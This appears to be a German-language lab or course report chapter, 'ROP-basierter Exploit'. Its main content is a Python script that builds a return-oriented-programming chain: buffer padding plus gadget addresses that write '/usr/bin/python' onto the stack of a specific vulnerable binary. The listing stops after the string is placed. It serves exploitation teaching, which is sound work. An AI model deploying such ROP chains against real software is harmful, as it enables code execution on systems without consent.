 \documentclass[]{scrreprt}
\begin{document}
\chapter{ROP-basierter Exploit}
Folgender Code liefert die ROP-Chain (\texttt{ropChain.py}):
\begin{lstlisting}[frame=single]
rop = ''
rop += 'A'*112
	
#pop esi; -> esi zeigt auf die 0xffffce70 im Stack!
rop += '\xd8\x96\x04\x08' 
rop += '\x70\xce\xff\xff'
	
#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += '//us'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x74\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'r/bi'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
	
#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding	
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x78\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'n/py'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x7c\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'thon'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
	
#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x80\xce\xff\xff'
	

\end{lstlisting}
\end{document}

